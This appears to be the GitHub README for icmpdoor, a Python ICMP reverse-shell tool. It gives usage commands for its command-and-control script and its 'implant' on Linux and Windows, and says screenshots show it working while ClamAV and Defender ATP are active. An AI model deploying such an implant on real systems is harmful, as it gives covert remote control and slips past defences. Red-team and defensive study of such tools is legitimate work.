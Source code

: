 # icmpdoor - ICMP Reverse Shell
icmpdoor is written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

Read [this article](https://cryptsus.com/blog/icmp-reverse-shell.html) for more information.

**Python version usage (both Windows and Linux):**
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

**Binary Windows version usage version:**
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

**Binary Linux version usage version:**
```bash
./icmp-cnc -d DESTINATION_IP (Command and Control)
./icmpdoor -d DESTINATION_IP (Implant)
```

**Parameters details:**
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  exit                  Exit Command and Control (E2)
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection (ATP) is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
